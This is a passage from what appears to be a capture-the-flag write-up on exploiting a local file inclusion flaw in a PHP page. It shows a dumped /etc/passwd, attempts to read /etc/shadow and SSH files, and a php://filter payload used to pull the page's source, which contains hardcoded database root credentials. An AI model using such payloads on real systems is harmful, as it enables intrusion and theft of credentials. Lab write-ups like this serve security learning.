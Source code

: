 ```
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
```



We see that we have users named `yash` , `files` and `root` with shells



Tried to access files in `/home/yash` to retrieve an ssh key but seems like we don't have access (tried retrieving the content of `.bashrc`)

We are probably running this as `www-data` so we don't have access.



didn't find any usefull infos in `/etc/ssh/sshd_config` 

Can't read `/etc/shadow`

Hmm, what file can we retrieve to get a foothold in the box ?



I retrieved the code for the php page using `/detail.php?page=php://filter/convert.base64-encode/resource=/var/www/html/detail.php`

```php
<?php
$con=mysqli_connect("localhost","root","myrootpass","db");
session_start();
if(isset($_SESSION['IS_LOGIN']))
{
$is_admin=$_SESSION['isadmin'];
echo "<h2 style='color:Tomato;margin-left:100px;margin-top:-80px'>Find out who you are :) </h2>";
echo "<br><br><br>";
if($is_admin==="true")
{
echo '<div style="align:center;" class="divf">';
echo '<form class="box" method="POST" style="text-align:center">';
echo '<input required AUTOCOMPLETE="OFF" style="text-align:center;" type="text" placeholder="user" name="name"><br><br>';
echo '<input type="submit" value="whoami" name="sub">';
echo '</form>';
echo '</div>';
if(isset($_GET["page"]))
{
                $page=$_GET["page"];
                $file = str_replace(array( "../", "..\"" ), "", $page );
                echo $file;
                include($file);
}
$formuser=mysqli_real_escape_string($con,$_POST['name']);
if(isset($_POST['sub']))
        {
                $sql="select * from user where username='$formuser'";
                $details = mysqli_fetch_assoc(mysqli_query($con,$sql));
                $det=json_encode($details);
                echo "<pre style='color:red;font-size:14px'>$det</pre>";
                $msg="Details are saved in a file";
```